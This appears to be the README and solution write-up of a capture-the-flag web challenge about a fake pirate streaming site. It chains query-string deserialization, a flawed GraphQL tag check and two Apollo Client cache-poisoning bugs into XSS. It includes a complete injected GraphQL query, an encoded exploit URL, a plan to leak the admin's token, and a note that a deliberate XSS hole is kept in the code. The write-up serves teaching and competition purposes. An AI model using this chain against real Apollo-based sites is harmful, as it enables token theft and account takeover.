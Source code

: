 # Davy Jones' Putlocker&emsp;<sub><sup>Web, 350 points + 350 points</sup></sub>

_Special thanks to Luke and zwad3 for testing this problem, and to zaratec for generating the show descriptions, episode descriptions, and cover art._

## Problem Description

When I not be plunderin' the high seas, I be watchin' me favorite shows. Like any self-respectin' pirate, I don't be payin' for my media. But I'll be honest, this site even be a bit shady for me. (Note: PPP does not condone media piracy)

**Dubs (350 points).** See `problem/part1`.

**Subs (350 points).** See `problem/part2`.

## Deployment

Run `make` in the problem directory to generate the handouts.  Launching is handled with slingshot.

## Issues

Originally, this problem was deployed without modifying the admin's password, allowing the attacker to trivially log in.  There were also some weird networking issues with the cloud host we were using.  The problem was redeployed with the password properly randomized on a different host, and the handout for Subs was made public without requiring the Dubs flag.  This repository contains the fixed version.

There is also an unintended XSS that trivializes Dubs, caused by a poor translation on my part when I decided to make the problem two parts at the last minute.  This bug is still present in this repository to reflect the problem as it was released.

## Solution

The intended solution uses two bugs in Apollo Client's caching behavior to poison the cache and obtain XSS.  The intent was for Dubs to require either bug and for Subs to require both, but actually one of the two bugs is sufficient to solve Subs on its own, but in practice is the much harder one to find.

Before getting to the Apollo Client bug, an attacker must first observe the following:

- `qs` is being used to parse the query string in the `useQs` hook (`client/src/utils/qs.tsx`), meaning that objects can be deserialized from the query string.
- In the one place that `useQs` is used (`client/src/views/Playlist/Playlist.tsx`), the query string is spread _after_ the validated `id`, meaning that the `id` can be overwritten by the query string.
- The custom `gql` tag implementation (`client/src/utils/gql.ts`) has a faulty check in its interpolation logic, because the `isNode` function it imports wasn't actually intended for external use; the only thing that that function actually checks for is that its argument is an object and that its `kind` field is a valid GraphQL AST kind.

These three bugs together allow the attacker to inject custom GraphQL queries via the playlist page, for example via a URL like:

```
http://<inst-uid>.dubs.putlocker.chal.pwni.ng/playlist/<pl-uid>?index=0&autoplay=%E2%9C%93&id[kind]=Name&id[value]=<injected query>
```

Now armed with GraphQL injection, the hard part of the problem is to figure out what to do with it.  The results of the query being injected into aren't inserted into the page as HTML, so simply aliasing fields in a way that the caller wasn't expecting won't work.  Instead, the attacker must poison the cache in for a query that will run later.  Fortunately, this is easy on the playlist page: immediately after the query that loads the playlist, another query executes to load the first episode, and the description of that episode will be inserted as HTML; therefore, if the attacker can overwite that description with a malicious payload, they can get XSS.

The two cache poisoning bugs are outlined in [this GitHub issue](https://github.com/apollographql/apollo-client/issues/10784) (submitted after the contest), but in short they are:

1. If a query aliases `__typename` and `id`, then Apollo Client's cache will use the aliased values when generating the cache key, meaning that one object can be stored at the wrong cache entry, potentially overwriting some or all of another object's entry.

2. If a query queries a field and later references the same field with an `@client` directive as an alias of a different field, then the unnormalized second field will be stored as the value of the first field.

Ignoring the trivial XSS, either of these on its own can be used to solve Dubs:

1. Create a playlist that has an XSS payload in its description.  Create an episode of a show with the title `Playlist` and a URL equal to the playlist's id, and add that episode to the playlist.  Use the `__typename`/`id` aliasing trick to make the Apollo Client cache store `Playlist:<playlist-id>` as the appropriate reference for `Episode({"id":"<episode-id>"})`, and also query the playlist itself so that its fields get merged in.  When loading the episode, it will then use the playlist's description as the episode's description, winning XSS.

2. Create an episode with an XSS payload in its description, create a playlist, and add the episode to the playlist.  Use the `@client` trick to overwrite the episode's `description` with its `rawDescription`.

The intended solution to Subs is to use both of them together.  Create a user with an XSS payload for a username.  Select an episode to attack, and create a playlist with the title `Episode` and that episode's ID as its raw description.  Create a second playlist and add that episode to it.  Use the `__typename`/`id` aliasing trick to make the Apollo Client cache merge the playlist into the Episode's cache object.  Use the `@client` trick to overwrite the playlist's `description` with `owner { __html: name }`.  When loading the episode, it will then use the playlist's owner's name as the episode's description, winning XSS.

The actual query that can accomplish this is:

```gql
query PlaylistQuery {
  playlist(id: "<playlist2-id>") {
    id
    name
    description
    episodes {
      id
      name
      __typename
    }
    owner {
      id
      name
      __typename
    }
    __typename
  }
  x: episode(id: "<episode-id>") {
    id
    name
    url
    rating
    ratingCount
    show {
      owner {
        id
        __typename
      }
      __typename
    }
    __typename
  }
  y: playlist(id: "<playlist1-id>") {
    __typename: name        # "Episode"
    id: rawDescription      # "<episode-id>"
    _ign: __typename
    description
    owner {
      __html: name          # XSS payload
    }
    owner: description @client
  }
  z: playlist(id: "<playlist2-id>") {
    id
    name
    description
    episodes {
      id
      name
    }
    owner {
      id
      name
    }
  }
}
```

Which can be executed with this URL:

```
http://<inst-uid>.subs.putlocker.chal.pwni.ng/playlist/<playlist2-id>?index=0&autoplay=%E2%9C%93&id[kind]=Name&id[value]=%22%3Cplaylist2-id%3E%22)%20{%20id%20name%20description%20episodes%20{%20id%20name%20__typename%20}%20owner%20{%20id%20name%20__typename%20}%20__typename%20}%20x:%20episode(id:%20%22%3Cepisode-id%3E%22)%20{%20id%20name%20url%20rating%20ratingCount%20show%20{%20owner%20{%20id%20__typename%20}%20__typename%20}%20__typename%20}%20y:%20playlist(id:%20%22%3Cplaylist1-id%3E%22)%20{%20__typename:%20name%20id:%20rawDescription%20_ign:%20__typename%20description%20owner%20{%20__html:%20name%20}%20owner:%20description%20@client%20}%20z:%20playlist(id:%20%22%3Cplaylist2-id%3E%22
```

With an appropriate XSS payload, the admin's token can be leaked, allowing the attacker to execute `mutation { flag }` as the admin.

